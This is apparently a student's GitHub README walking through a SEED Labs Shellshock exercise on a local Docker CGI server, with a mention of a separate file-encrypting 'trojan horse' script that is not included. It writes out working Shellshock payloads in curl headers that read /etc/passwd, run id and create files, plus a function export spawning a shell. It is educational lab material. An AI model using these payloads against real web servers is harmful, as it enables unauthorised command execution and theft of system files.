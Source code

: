 
## Work Description

- Shellshock Attack with Reverse Shell <br/>
- Local Client and Server using Socket Programming to demonstrate Trojan Horse Attack <br/>
- Mini Implementation of Trojan Horse to encrpt user all files and to decrypt it with key<br/>

## Prerequisite

- SEED Lab <br/>
- Pyhton3 Install in Virtual machine<br/>
- Cryptography module for encryption module <br/>
- Fernet module of python for encryption & decryption <br/> 


## Steps to Run the ShellShock Attack:

1. ---DNS Setting---<br/>
Check for DNS settings for shellshock Attack using command ```less /etc/hosts```.<br/>
2. ---Container Setup---<br/>
Go in Lab setup and open terminal See if any container is running -> ```docker container list```.<br/>
See if any image is there -> ```docker image list```.<br/>
If you find difficulty For help type command ```docker run --help``` For conatiner help -> ```docker container --help```.<br/>
3. ---Build the container image---<br/>
Build and Run the Docker Compose using ```docker-compose build``` command in the folder after downloading labsetup files.<br/>
4.---Verify---<br/>
Run ```docker-compose up``` to set a trap at apache seed lab it will wait for victim. Check if victim is running ```dockps``` and run docker exec -> ```docksh```.<br/>
5. ---Web Server and CGI---<br/>
Check wheather the getenv and vul.cgi is present using ```ls /usr/lib/cgi-bin/``` <br/>
To check shell shock attack is possible or not I have created two C files ```listcommand.c``` and ```getpid.c``` to check wheather we can get victims shell access.<br/>
6. Run ```sudo cp bash_shellshock /bin/``` to run vulnerable shellshock shell.<br/>
Change permissions using ```sudo chown root vul``` and ```sudo chmod 4755 vul```.<br/>
7. Export a vulnerable function for instance ```export foo='() { echo "normal"; }; /bin/sh'``` and run it using ```./vul```.<br/>
8. ---Passing Data---<br/>
Once we have shell access of user we can use diffrent commands such as ```curl -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi``` to run files which we have created in labsetup folder in webserver using victims shell.<br/>
We can run several command like ```curl -H, e, and A``` to get diffrent infoirmation about users like passwords files or environment variables of victims.<br/> 
To get password file run  ```curl -A"() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```.<br/> 
You can verify in victims terminal by running ```cat /etc/passwd```<br/>
To get user process id and pid and gpid run ```curl -e "() { echo hello; }; echo Content_type: text/plain; echo; /bin/id" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```<br/>
9. We can create a virus folder in victim using ```curl -H "ATTACK: () { echo hello; }; echo Content_type: text/plain; echo; /bin/touch /tmp/virus" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi``` using this folder we will inject our malicious python scripty to encrypt and decrypt users important files. <br/> To check for folder in victims  run ```ls/tmp``` <br/>
10. Finally we can implement our trojan horse attack using the pyhton script uploaded in my github branch.<br/> 
    Close lab container  by ```docker-compose down``` <br/>

- Note:  If you have any concern reach me out and if you want contribute kindly open a pull request.


## Reference

- For the implementation of shellshock, seedlab setup is used (https://seedsecuritylabs.org/Labs_20.04/Web/Shellshock/).<br/>
- I have made changes in the docker-compose of the project and also creted several C files to get key information about users like PID GPID or to display users files and folders.<br/>
- The implmentation of trojan horse to encrpy and decrpt files in local Client and server using socket programming is created by me<br/>

## Author

- Fahad Patel - Univerisity of Windsor (110085698)

